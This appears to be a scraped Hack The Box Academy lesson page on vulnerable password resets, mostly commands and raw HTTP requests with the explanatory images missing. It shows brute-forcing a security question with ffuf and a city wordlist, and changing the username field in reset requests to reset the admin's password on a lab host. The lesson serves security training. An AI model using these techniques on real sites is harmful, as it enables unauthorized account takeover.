 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/80/section/779
// Platform Version: V1
// Module ID: 80
// Module Name: Broken Authentication
// Module Difficulty: Medium
// Section ID: 779
// Section Title: Vulnerable Password Reset
// Page Title: Hack The Box - Academy
// Page Number: 9
-->

# Vulnerable Password Reset

**Module Name:** Broken Authentication **Page Number:** 9

#### 

#### BROKEN AUTHENTICATION

# Vulnerable Password Reset

## Guessable Password Reset Questions

![https://academy.hackthebox.com/storage/modules/269/pw/pwreset_1.png](https://academy.hackthebox.com/storage/modules/269/pw/pwreset_1.png)

``` shell-session
ndefstathiou@htb[/htb]$ cat world-cities.csv | cut -d ',' -f1 > city_wordlist.txt

ndefstathiou@htb[/htb]$ wc -l city_wordlist.txt 

26468 city_wordlist.txt
```

![https://academy.hackthebox.com/storage/modules/269/pw/pwreset_2.png](https://academy.hackthebox.com/storage/modules/269/pw/pwreset_2.png)

![https://academy.hackthebox.com/storage/modules/269/pw/pwreset_3.png](https://academy.hackthebox.com/storage/modules/269/pw/pwreset_3.png)

``` shell-session
ndefstathiou@htb[/htb]$ ffuf -w ./city_wordlist.txt -u http://pwreset.htb/security_question.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=39b54j201u3rhu4tab1pvdb4pv" -d "security_response=FUZZ" -fr "Incorrect response."

<SNIP>

[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 0ms]
    * FUZZ: Houston
```

![https://academy.hackthebox.com/storage/modules/269/pw/pwreset_4.png](https://academy.hackthebox.com/storage/modules/269/pw/pwreset_4.png)

``` shell-session
ndefstathiou@htb[/htb]$ cat world-cities.csv | grep Germany | cut -d ',' -f1 > german_cities.txt

ndefstathiou@htb[/htb]$ wc -l german_cities.txt 

1117 german_cities.txt
```

## Manipulating the Reset Request

![https://academy.hackthebox.com/storage/modules/269/pw/pwreset_5.png](https://academy.hackthebox.com/storage/modules/269/pw/pwreset_5.png)

``` http
POST /reset.php HTTP/1.1
Host: pwreset.htb
Content-Length: 18
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=39b54j201u3rhu4tab1pvdb4pv

username=htb-stdnt
```

![https://academy.hackthebox.com/storage/modules/269/pw/pwreset_6.png](https://academy.hackthebox.com/storage/modules/269/pw/pwreset_6.png)

``` http
POST /security_question.php HTTP/1.1
Host: pwreset.htb
Content-Length: 43
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=39b54j201u3rhu4tab1pvdb4pv

security_response=London&username=htb-stdnt
```

![https://academy.hackthebox.com/storage/modules/269/pw/pwreset_7.png](https://academy.hackthebox.com/storage/modules/269/pw/pwreset_7.png)

``` http
POST /reset_password.php HTTP/1.1
Host: pwreset.htb
Content-Length: 36
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=39b54j201u3rhu4tab1pvdb4pv

password=P@$$w0rd&username=htb-stdnt
```

``` http
POST /reset_password.php HTTP/1.1
Host: pwreset.htb
Content-Length: 32
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=39b54j201u3rhu4tab1pvdb4pv

password=P@$$w0rd&username=admin
```

# 

# 

#### Questions

####